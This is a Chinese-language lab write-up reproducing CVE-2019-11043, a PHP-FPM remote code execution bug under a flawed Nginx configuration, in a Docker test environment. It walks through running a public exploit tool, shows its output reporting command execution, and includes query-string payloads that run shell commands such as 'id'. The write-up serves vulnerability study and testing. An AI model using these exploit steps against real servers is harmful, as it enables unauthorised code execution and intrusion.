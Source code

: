 # PHP-FPM 远程代码执行漏洞 CVE-2019-11043

## 漏洞描述

在长亭科技举办的 Real World CTF 中，国外安全研究员 Andrew Danau 在解决一道 CTF 题目时发现，向目标服务器 URL 发送 %0a 符号时，服务返回异常，疑似存在漏洞。

在使用一些有错误的Nginx配置的情况下，通过恶意构造的数据包，即可让PHP-FPM执行任意代码。

参考链接：

- https://bugs.php.net/bug.php?id=78599
- https://lab.wallarm.com/php-remote-code-execution-0-day-discovered-in-real-world-ctf-exercise/
- https://github.com/neex/phuip-fpizdam

## 漏洞影响

在 Nginx + PHP-FPM 环境下，当启用了上述 Nginx 配置后，以下 PHP 版本受本次漏洞影响：

- PHP 7.0 版本
- PHP 7.1 版本
- PHP 7.2 版本
- PHP 7.3 版本

另外，PHP 5.6版本也受此漏洞影响，但目前只能 Crash，不可以远程代码执行。

## 环境搭建

Vulhub执行如下命令启动有漏洞的Nginx和PHP：

```
docker-compose up -d
```

环境启动后，访问`http://your-ip:8080/index.php`即可查看到一个默认页面。

## 漏洞复现

使用https://github.com/neex/phuip-fpizdam中给出的工具，发送数据包：

```
$ go run . "http://your-ip:8080/index.php"
2019/10/23 19:41:00 Base status code is 200
2019/10/23 19:41:00 Status code 502 for qsl=1795, adding as a candidate
2019/10/23 19:41:00 The target is probably vulnerable. Possible QSLs: [1785 1790 1795]
2019/10/23 19:41:02 Attack params found: --qsl 1790 --pisos 152 --skip-detect
2019/10/23 19:41:02 Trying to set "session.auto_start=0"...
2019/10/23 19:41:02 Detect() returned attack params: --qsl 1790 --pisos 152 --skip-detect <-- REMEMBER THIS
2019/10/23 19:41:02 Performing attack using php.ini settings...
2019/10/23 19:41:02 Success! Was able to execute a command by appending "?a=/bin/sh+-c+'which+which'&" to URLs
2019/10/23 19:41:02 Trying to cleanup /tmp/a...
2019/10/23 19:41:02 Done!
```

![image-20230328161616798](images/image-20230328161616798.png)

可见，这里已经执行成功。

我们访问`http://your-ip:8080/index.php?a=id`，即可查看到命令已成功执行：

![image-20230328161631365](images/image-20230328161631365.png)

注意，因为php-fpm会启动多个子进程，在访问`/index.php?a=id`时需要多访问几次，以访问到被污染的进程。